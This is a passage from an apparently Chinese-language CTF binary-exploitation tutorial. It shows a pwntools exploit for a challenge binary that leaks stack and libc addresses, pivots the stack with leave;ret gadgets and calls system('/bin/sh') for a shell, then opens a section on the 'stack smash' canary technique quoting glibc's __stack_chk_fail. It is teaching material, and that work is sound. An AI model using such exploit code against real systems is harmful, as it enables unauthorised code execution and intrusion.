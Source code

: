 ```python

io.sendafter(">", '0' * 80)
stack = u64(io.recvuntil("\x7f")[-6: ].ljust(8, '\0')) - 0x70
success("stack -> {:#x}".format(stack))
'''
others_over [master●●] ropper --file ./over.over --search "leave|ret"
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: leave|ret

[INFO] File: ./over.over
0x00000000004007d0: ret 0xfffe; 
0x00000000004006be: leave; ret; 
0x0000000000400509: ret; 

0x0000000000400793 : pop rdi ; ret
'''

#  DEBUG("b *0x4006B9\nc")
io.sendafter(">", flat(['11111111', 0x400793, elf.got['puts'], elf.plt['puts'], 0x400676, (80 - 40) * '1', stack, 0x4006be]))
libc.address = u64(io.recvuntil("\x7f")[-6: ].ljust(8, '\0')) - libc.sym['puts']
success("libc.address -> {:#x}".format(libc.address))

io.sendafter(">", flat(['22222222', 0x400793, next(libc.search("/bin/sh")), libc.sym['system'], (80 - 40 + 8) * '2', stack - 0x30, 0x4006be]))

io.interactive()
io.close()
```

总的来说这种方法跟 stack pivot 差别并不是很大

### 参考阅读

- [http://www.xfocus.net/articles/200602/851.html](http://www.xfocus.net/articles/200602/851.html)
- [http://phrack.org/issues/58/4.html](http://phrack.org/issues/58/4.html)

## Stack smash

### 原理


在程序加了canary 保护之后，如果我们读取的 buffer 覆盖了对应的值时，程序就会报错，而一般来说我们并不会关心报错信息。而 stack smash 技巧则就是利用打印这一信息的程序来得到我们想要的内容。这是因为在程序发现 canary 保护之后，如果发现 canary 被修改的话，程序就会执行 __stack_chk_fail 函数来打印 argv[0] 指针所指向的字符串，正常情况下，这个指针指向了程序名。其代码如下

```C
void __attribute__ ((noreturn)) __stack_chk_fail (void)
{
  __fortify_fail ("stack smashing detected");
}
void __attribute__ ((noreturn)) internal_function __fortify_fail (const char *msg)
{
  /* The loop is added only to keep gcc happy.  */
  while (1)
    __libc_message (2, "*** %s ***: %s terminated\n",
                    msg, __libc_argv[0] ?: "<unknown>");
}
```
